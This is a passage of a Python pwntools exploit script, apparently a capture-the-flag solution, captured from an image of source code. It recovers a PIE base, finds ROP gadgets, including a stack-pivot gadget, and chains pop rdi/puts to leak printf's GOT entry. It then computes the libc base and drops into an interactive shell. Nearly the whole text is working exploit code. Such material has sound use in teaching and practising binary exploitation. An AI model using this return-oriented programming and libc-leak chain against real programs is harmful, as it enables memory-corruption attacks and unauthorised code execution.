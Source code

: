 ```py

elf.address = get - 0x40c0 # 16576
log.info(f'PIE BASE --> {hex(elf.address)}')

rop = ROP(elf)
# sub_rsp_gadget = rop.find_gadget(['sub rsp', '0x28', 'ret'])[0] # sub rsp, 0x28; ret;
sub_rsp_gadget = elf.address + 0x1219
log.success(f'STACK PIVOT GADGET --> {hex(sub_rsp_gadget)}')
rdi_gadget = rop.find_gadget(['pop rdi', 'ret'])[0]
log.success(f'RDI GADGET --> {hex(rdi_gadget)}')
# sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b'>', b'1')

# ROP PAYLOAD
p = flat([
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
    elf.address + 0x132a
])

# calculate padding for our second payload (stack pivot)
rip_offset = 72
padding = rip_offset - len(p)
log.info(f'padding --> {padding}')

## LEAKING PRINTF@GOT
pay = flat([
    asm('nop') * padding,
    rdi_gadget,
    elf.got['printf'],
    elf.plt['puts'],
    elf.address + 0x132a, # buy option
    sub_rsp_gadget
])

## LEAKING READ@GOT
# pay = flat([
#     asm('nop') * padding,
#     rdi_gadget,
#     elf.got['read'],
#     elf.plt['puts'],
#     elf.address + 0x132a, # buy option
#     sub_rsp_gadget
# ])

# sh.sendlineafter(b':', pay)
sh.sendafter(b':', pay)
leaked_libc = sh.recvline().strip()
# print(leaked_libc)
leaked_libc = unpack(leaked_libc.ljust(8,b'\x00'))
log.success(f'Leaked LIBC printf --> {hex(leaked_libc)}')

## CALCULATING LIBC BASE
libc.address = leaked_libc - libc.sym['printf']
log.success('LIBC BASE --> %#0x', libc.address) 

sh.interactive()
```

